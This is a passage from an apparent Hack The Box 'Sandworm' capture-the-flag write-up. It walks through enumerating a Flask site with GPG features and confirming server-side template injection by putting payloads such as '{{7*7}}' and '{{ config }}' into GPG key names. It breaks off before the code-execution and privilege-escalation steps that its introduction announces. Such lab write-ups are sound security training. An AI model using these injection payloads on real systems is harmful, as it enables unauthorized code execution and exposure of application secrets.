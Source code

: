 ## HTB Sandworm (Medium) - Writeup

Difficulty: Medium

This box revolves around a Flask web app with GPG-based functionality.  
By injecting SSTI payloads via GPG key names and signature verification, we achieve RCE.  
Enumeration reveals credentials and a Rust binary (tipnet) run via cron as root, which imports a custom logger crate we can write to—allowing for privilege escalation.  
Finally, we exploit a known Firejail vulnerability (CVE-2022-31214) to escalate to root.  
---

## Nmap 

#### The nmap scan revealed three open ports:  

![obraz](https://github.com/user-attachments/assets/f64289ac-22cf-4e03-8e80-8c45e9321d41)  


## Port 80 - Website  

This website just redirects to httpsL//ssa.htb  
We'll add it to /etc/hosts and move to 443  



## Port 443 - https website  

![obraz](https://github.com/user-attachments/assets/46fd1c0b-d1ad-4212-b0b6-24db7e905246)  

After quick enumeration I found that this app is written in flask.  
The site exposes three main routes:  

+  /contact
+  /pgp
+  /guide

/pgp contains pgp key, first thing that came to my mind is to import it to kali.  
It can be done by putting it in a file and using:  
```
gpg --import key
```
![obraz](https://github.com/user-attachments/assets/557ef4a9-d850-46b5-8f67-f8acbc623bde)

Now we will be able to encrypt messages with this key.  
On the contact page we can send encrypted messages:  

![obraz](https://github.com/user-attachments/assets/3cde4962-4abd-4770-a569-153e8727bfc4)

On the guide page there are three functionalities:  
+  Decrypting
+  Encrypting
+  Verifying Signatures

Let's test them one by one starting with Decryption.  
Our goal is to observe how this site works to look for anything that might be abused.  

It can be encrypted with the following command:  
```
gpg --armor --recipient atlas@ssa.htb --encrypt message.txt -o -
```

![obraz](https://github.com/user-attachments/assets/94b3c21b-dbf1-4b70-8d03-5bc6bf9c7c39)

We can now paste this message and click on "Decrypt".  

![obraz](https://github.com/user-attachments/assets/15b62683-bf4e-4ab7-84a9-228936d57492)

It just decrypts but there is nothing unusual.  

The second section of the site allows us to provide our public key, and it responds with a message encrypted using that key.  
For it to work we need to generate a key:  
```
gpg --full-key-gen
```
It will prompt with some questions, go with any values you like doesn't matter.  

![obraz](https://github.com/user-attachments/assets/ed288c89-4d7d-4e8d-bfd2-26be4f7b36dd)

Site allows us to paste the key, for that we need to print it with coresponding key ID:  
```
gpg --armor --export B8A1EE1855AA25C45247A84A3B30A676B4804748 
```
![obraz](https://github.com/user-attachments/assets/e2645220-4377-4390-89a5-e1d66039a48b)


Now if we paste this key they will use it to decrypt some message:  

![obraz](https://github.com/user-attachments/assets/7da727ae-2e57-4ad6-b6a7-dc2a1aca876d)  

We can copy it and decrypt because we own the key:  
```
gpg --decrypt msg.txt
```

![obraz](https://github.com/user-attachments/assets/fa9eb5f2-1da1-454f-be7f-4e0dfab3f960)

Nothing unusual so far.  

Third and last section allows to verify a signature.  
With pgp we can sign a message, let's do it:  

![obraz](https://github.com/user-attachments/assets/7ffdb0b3-5c0f-4146-b474-73a584a6e64f)


Now signature will be save into test.txt.asc:  

![obraz](https://github.com/user-attachments/assets/e56b426e-16c3-448e-8d07-55c22587a8a6)

If we paste the key and the signature into the site and click on verify signature we get:  

![obraz](https://github.com/user-attachments/assets/52aea4bb-433b-4a03-85c4-ec91254417f6)

And now is is something very intresting.  
It uses most likely some templating engine.  
There is possibility that it will contain SSTI vulnerability.  

Now we want to look for a parameter that is being generated and that we control.  
In this case template contains key name that we control when generating a key:  

![obraz](https://github.com/user-attachments/assets/2738ee0f-ecf9-47f2-8bf9-de1e5ded5a49)


## SSTI - exploitation  

First we need to verify if it's vulnerable with a poc payload.  
Previously we generated a key with full generation command, but there is an option to generate it faster:  
```
gpg --quick-generate-key "{{7*7}}" default default never
```
![obraz](https://github.com/user-attachments/assets/317c2949-cc4f-4f23-a373-7c49353dde0e)  

Now we need to create a message and export the key:  
```
echo "malicious" > text
gpg --armor --export 24A027F729D76AEE8DE74EEEFD61AF656FB0700A
```

![obraz](https://github.com/user-attachments/assets/6a7df3d1-fed6-4d61-b1b5-fadf944cd8de)  

After that we want to sign a message and export it's signature:  
```
gpg --local-user 24A027F729D76AEE8DE74EEEFD61AF656FB0700A --clearsign text
cat text.asc
```
![obraz](https://github.com/user-attachments/assets/2089bbb7-eeea-4f14-b06a-149c58f0cc21)

Now paste both of then into the site and click "Verify Signature".  

![obraz](https://github.com/user-attachments/assets/a8b189e1-ae41-4f32-8373-38bbb72e3e07)

It performed multiplication which means that the templating engine is vulnerable to SSTI.  

Before we test for code execution we can dump the config:  
```
gpg --quick-generate-key "{{ config }}" default default never
```


















































